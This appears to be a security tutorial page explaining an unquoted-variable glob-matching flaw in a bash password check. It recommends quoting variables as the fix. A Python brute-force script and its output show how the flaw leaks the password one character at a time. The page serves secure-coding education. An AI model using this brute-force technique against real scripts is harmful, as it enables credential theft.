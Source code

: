 ```yaml
---
title: "Bash"
summary: "Practical examples of Bash script vulnerabilities and exploitation techniques."
---
```


## Variable Comparison Vulnerability

```
#!/bin/bash
DB_USER="root"
DB_PASS="$(/usr/bin/cat /home/root/cred.txt)"

read -s -p "Enter password for $DB_USER: " USER_PASS
echo

if [[ $DB_PASS == $USER_PASS ]]; then
        echo "Password confirmed!"
else
        echo "Password confirmation failed!"
fi
```

The problem here is in how the variables are compared.

If you use `$var` directly, it can cause unexpected results, especially if the variable contains **spaces** or **special characters**.

The **safer way** is to quote your variables like this: `"${var}"`.

This **ensures the comparison** works correctly and avoids potential security issues.

### Exploit Vulnerability

This vulnerability allows us to **discover the password** through **brute force**.

In this case, ***cred.txt*** contains the password **k4l1L1nUx**.

The program will interpret `[[ $DB_PASS == k4l1L1nUx ]]` the same as `[[ $DB_PASS == k* ]]`.

So through testing, we would **discover the password**. To automate it, we will use a Python script.

```
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
file = str(input("File name: "))
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | ./{file}"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            # Remove the comment if you want me to show you the process of how it is finding the password.
            # print(password) 
            break
    else:
        found = True
        print("The password is: ", password)
```

Result when running the script:

```
kali@kali:~$ python3 script.py 
File name: bash_vuln
k
k4
k4l
k4l1
k4l1L
k4l1L1
k4l1L1n
k4l1L1nU
k4l1L1nUx
The password is:  k4l1L1nUx
```